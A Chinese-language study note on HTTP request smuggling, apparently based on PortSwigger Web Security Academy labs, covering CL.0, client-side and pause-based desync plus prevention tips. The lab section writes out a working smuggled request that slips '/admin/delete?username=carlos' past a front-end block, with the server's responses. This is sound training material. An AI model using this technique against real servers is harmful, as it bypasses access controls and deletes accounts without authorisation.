#### 诱导 CL.0

如果找不到容易攻击的 endpoint，可以尝试触发服务器错误来诱导该行为。一些服务器会发出错误 response，然后不从套接字上读取剩余 body 数据，如果此时它们不关闭连接，就可以成为 CL.0 脱同步漏洞的一环。  

也可以尝试类似 TE.TE 中的头部混淆技术，想办法对前端展示 CL 头但对后端隐藏。  


#### 利用 lab 实验

前端阻塞了访问 /admin 这个 URL 的请求，需要通过走私请求删除账户。  
请求1：

```http
GET /resources/images/avatarDefault.svg HTTP/1.1
Host: 0aae0016036482cc807b9e8b0000000b.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

请求2：

```http
GET / HTTP/1.1
Host: 0aae0016036482cc807b9e8b0000000b.web-security-academy.net
Connection: keep-alive

```

上面两个请求添加到同一个组中，按顺序发送，响应1：

```http
HTTP/1.1 200 OK
Content-Type: image/svg+xml
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 9881

<?xml version="1.0" encoding="utf-8"?>
<!-- Generator: Adobe Illustrator 22.1.0, SVG Export Plug-In . SVG Version: 6.00 Build 0)  -->
<svg version="1.1" xmlns="http://www.w3.org/2000/svg"  x="0px" y="0px"
     viewBox="0 0 50 50" style="enable-background:new 0 0 50 50;" xml:space="preserve">
<style type="text/css">
	.st0{fill:#BCD4E8;}
	.st1{fill:#EDF5F9;}
	....... omit .......
```

响应2：

```http
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=QduwPcgc1617wZo23WFhZE86vHzeIasl; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 0

```


### 客户端脱同步攻击

https://portswigger.net/web-security/request-smuggling/browser/client-side-desync

请求走私传统上是服务器端要考虑的，因为利用这些漏洞需要 BurpSuite 之类的工具，标准的浏览器不会发送这种类型的请求去触发脱同步。但从上面 CL.0 实验可以看出，有时候可以使用完全兼容浏览器 HTTP/1 的请求来制造脱同步。  



CSD(Client-Side Desync)是使得受害者 web 浏览器和网站连接之间脱同步的攻击。  

有时有些 web 服务器在不读取 body 的情况下响应 POST 请求，如果后续允许浏览器复用同一连接，就会导致客户端脱同步。  

主要涉及下面几个阶段：

1. 受害者访问的任意域名上包含恶意 JS 脚本
2. 这个 JS 脚本导致受害者浏览器请求目标网站，这个请求的 body 中包含了攻击者控制的请求前缀，就像普通请求走私一样
3. 服务器响应受害者请求后，body 中的恶意前缀保留在服务器 TCP/TLS 套接字上，这就使得与浏览器连接脱同步
4. 然后 JS 脚本继续使用被毒化的连接发送下一个请求，此请求被追加到恶意前缀上，从而引出服务器的 response

重要的是目标服务器必须不支持 HTTP/2 ，客户端脱同步依赖于 HTTP/1.1 连接复用，如果服务器支持客户端将优先使用 HTTP/2。


### 基于暂停的脱同步攻击

有些网站隐含的脱同步漏洞，只有在请求中途暂停时才会展现出来。通过发送 header，声明一个 body，然后等待。有时就能发现脱同步漏洞。


## 预防

* 尽可能使用 HTTP/2 端到端并且关闭 HTTP 降级。
* 规范前端服务中带歧义的请求，让后端服务器拒绝带有歧义的请求，关闭对应 TCP 连接。
* 从不假设请求没有 body 的请求，这是 CL.0 和 客户端非同步漏洞的根本原因。
* 默认丢弃导致服务端处理抛出异常的请求。
* 如果流量经过转发，尽量在上游开启 HTTP/2。


# SSTI(Server-side Template Injection) 服务端模板注入


# OAuth


# JWT


